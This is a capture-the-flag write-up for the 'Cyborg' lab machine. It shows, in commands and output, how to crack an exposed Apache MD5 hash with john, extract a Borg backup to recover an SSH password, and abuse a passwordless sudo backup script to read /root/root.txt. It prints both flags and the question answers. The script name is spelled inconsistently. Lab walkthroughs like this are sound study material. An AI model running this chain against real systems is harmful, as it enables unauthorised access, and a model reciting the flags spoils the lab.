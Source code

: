 # Cyborg
Write-Up by **Mttttt** *2025-04-24*

## Room Description
A box involving encrypted archives, source code analysis and more.
## Solution
### nmap
**22**, **80**
### dirsearch
```
/etc/
/admin/
```
---
#### admins.html
There is page `/admin/admin.html`:
There are different names (could be useful in in the future):
```
Josh
Adam
Alex
```
#### passwd (/etc/squid)
In `/etc/squid` there is file `passwd` with credentials: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`
It looks like a *Apache MD5* key
We need to use tool like **john** or **hashcat** to decrypt key
```bash
echo "music_archive:\$apr1\$BpZ.Q.1m\$F0qqPwHSOG50URuOVQTTn." > hash.txt
john --format=md5crypt hash.txt # use --wordlist=/path/to/wrdlst if needed
```
Result: **squidward**
#### archive.tar
Also i downloaded `archive.tar` from `/admin/archive.tar`
There is a README file in it:
```
This is a Borg Backup repository.  
See https://borgbackup.readthedocs.io/
```
We should use `borg` *CLI* utility for "recovering" files
```bash
cd home/field/dev/final_archive
borg extract .::music_archive
```
Then go to the new extracted directory:
```bash
cd ./home/alex/
```
There are two txt files in Alex's home directory:
```
home/alex
├── Desktop  
│   └── secret.txt  
├── Documents  
│   └── note.txt  
├── Downloads  
├── Music  
├── Pictures  
├── Public  
├── Templates  
└── Videos
```
*Desktop/secret.txt*:
```
shoutout to all the people who have gotten to this stage whoop whoop!"
```
*Documents/note.txt:*
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!  
  
alex:S3cretP@s3
```
---
### User flag
```bash
ssh alex@<IP-OF-MACHINE>
ls # there is user.txt file
cat user.txt
```
`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
### Root flag
Lets see what Alex could execute without root rights:
```
$ sudo -l
Matching Defaults entries for alex on ubuntu:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User alex may run the following commands on ubuntu:  
   (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
This script supposes to backup all mp3 flles, but we also can execute commands via it:
```
$ sudo /etc/mp3backups/baskup.sh -c "echo hello world!"
<useless output about backups>
hello world!
```
So, lets use command to read root.txt file:
```bash
sudo /etc/mp3backups/baskup.sh -c "cat /root/root.txt"
```
`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`
## Questions
1. *Question #1*. Scan the machine, how many ports are open?
   *Answer*: **2**
2. *Question #2.* What service is running on port 22?
   *Answer*: **ssh**
3. *Question #3*. What service is running on port 80?
   *Answer*: **http**
4. *Question #4* What is the user.txt flag?
   *Answer*: **flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}**
5. *Question #5.* What is the root.txt flag?
   *Answer*: **flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}**
